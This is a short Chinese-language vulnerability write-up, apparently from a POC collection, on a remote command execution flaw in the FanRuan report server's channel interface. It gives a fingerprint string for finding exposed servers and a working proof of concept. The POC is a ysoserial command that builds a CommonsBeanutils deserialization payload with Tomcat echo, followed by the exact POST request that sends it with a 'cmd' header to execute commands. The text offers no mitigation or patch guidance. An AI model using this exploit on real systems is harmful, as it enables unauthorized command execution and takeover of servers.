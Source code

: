 # 

# 帆软报表 channel 远程命令执行漏洞

## 漏洞描述

帆软报表 channel 接口存在远程命令执行漏洞, 攻击者通过漏洞可以获取服务器权限，攻击服务器

## 漏洞影响

帆软报表

## 网络测绘

```
"Powered by 帆软"
```

## 漏洞复现

登陆页面

![image-20230828143655329](images/image-20230828143655329.png)

验证POC

```
java -jar ysoserial-1.5-su18-all.jar -g CommonsBeanutils1183NOCC -p 'EX-TomcatEcho' -ch "cmd" > fine10.bin

POST /webroot/decision/remote/design/channel HTTP/1.1
Content-Type: application/json
Host: 
cmd: id
Connection: close

{{gzip(file(fine10.bin))}}
```

![image-20230828143710052](images/image-20230828143710052.png)
